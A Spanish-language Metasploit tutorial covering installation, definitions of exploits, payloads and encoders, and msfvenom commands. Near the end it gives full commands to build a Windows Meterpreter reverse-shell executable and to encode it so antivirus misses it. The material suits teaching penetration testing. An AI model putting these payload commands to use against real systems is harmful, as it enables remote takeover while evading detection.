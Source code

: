
`EN CONSTRUCCIÓN !!!`

# Metasploit


# 1. Instalación

## 1.1 La base de datos

* Instalar `postgresql` y `postgresql-server`
* `systemctml start postgresql`

## 1.2 La aplicación

* Descargar paquete rpm de https://rpm.metasploit.com.
* `sudo rpm -i metasploit-framework-XXX.x86_64.rpm`
* `msfdb init`, crear el schema de la BBDD para MS.
* `msfconsole`, iniciar MS y comprobamos la BBDD.

```
david@camaleon> msfconsole

 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.


Would you like to use and setup a new database (recommended)?
Please answer yes or no.
Would you like to use and setup a new database (recommended)? yes
Creating database at /home/david/.msf4/db
Starting database at /home/david/.msf4/db...success
Creating database users
Creating initial database schema

 ** Metasploit Framework Initial Setup Complete **


 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v4.17.34-dev-                        ]
+ -- --=[ 1845 exploits - 1045 auxiliary - 320 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > db_status
[*] postgresql connected to msf
msf > exit
```

> Resumen: Para iniciar MSF
> * `sudo systemctl start postgresql`
> * `msfdb init`
> * `msfconsole`

---

# 2. TEORÍA: Definiciones

* `msf> help`, ver los comandos de Metasploit

## 2.1 Los exploits

Un exploit es un fallo el cual se puede aprovechar para diferentes fines: como el control del sistema, robo de información, etc.

* `show exploits`, nos muestra todos los exploits.

> La base de datos de exploits se actualiza contínuamente con las nuevas vulnerabilidades que se van detectando.

## 2.2 Payloads

Los payloads son "bloques de código" que se cargan y ejecutan gracias a las vulnerabilidades. Con ellas podemos conseguir:
* la obtención de una Shell y tomar el control del sistema afectado o
* provocar un desbordamiento o saturación del sistema.

* `show payloads`, nos muestra todos los payloads.

Hay diferentes tipos de Payloads, según el sistema operativo o los servicios instalados:
* **Meterpreter** o Meta-Interpreter
    * Payload avanzado y multifacético que opera mediante inyección dll.
    * Reside completamente en la memoria del host remoto y no deja rastros en el disco duro, por lo que es muy difícil
    de detectar con técnicas forenses convencionales.
* **PassiveX**
    * Payload que ayudar a eludir los firewalls de salida restrictivos. Lo hace mediante el uso de un control ActiveX para crear una instancia oculta de Internet Explorer. Usando el nuevo control ActiveX, se comunica con el atacante a través de
    solicitudes y respuestas HTTP.
* **IPv6**
    * Diseñados para funcionar en redes que use el protocolo IPv6.

## 2.3 Encoders

Encargado de cifrar exploits, payload, etc.

* `search encoders`

---

# 3. TEORÍA: Generando Payloads

Con la herramienta `msfvenom` podemos generar nuestros propios Payloads para un objetivo específico. Además también los podemos exportar a varios formatos ejecutables y cifrarlo con cualquiera de los "encoder".


## 3.1 Ejemplo: shell inversa

```
msf > msfvenom
[*] exec: msfvenom

Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
...

msf > msfvenom -p windows/meterpreter/reverse_tcp
               LHOST=127.0.0.1
               LPORT=4444
               -f exe > shell.exe
```

| Parámetro | Descripción | Ejemplo |
| --------- | ----------- | ------- |
| -p        | Payload     | Para sistemas Windows |
| LHOST     | Nuestra IP local | 127.0.0.1 |
| LPORT     | Nuestro puerto local | 4444 |
| -f        | Formato de salida | Ejecutable shell.exe 32bits |

Cuando se ejecute este Payload tendremos una shell de Meterpreter reversa. Es decir, él se conectaría a nosotros y esta iría por el protocolo TCP.

## 3.2 Ejemplo: esconderse del antivirus

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe -e x86/shikata_ga_nai > shell.exe
```


* Este ejemplo es similar al anterior pero nuestro Payload esta cifrado por el encoder "shikata_ga_nai" para protegerse, por ejemplo, de los antivirus.
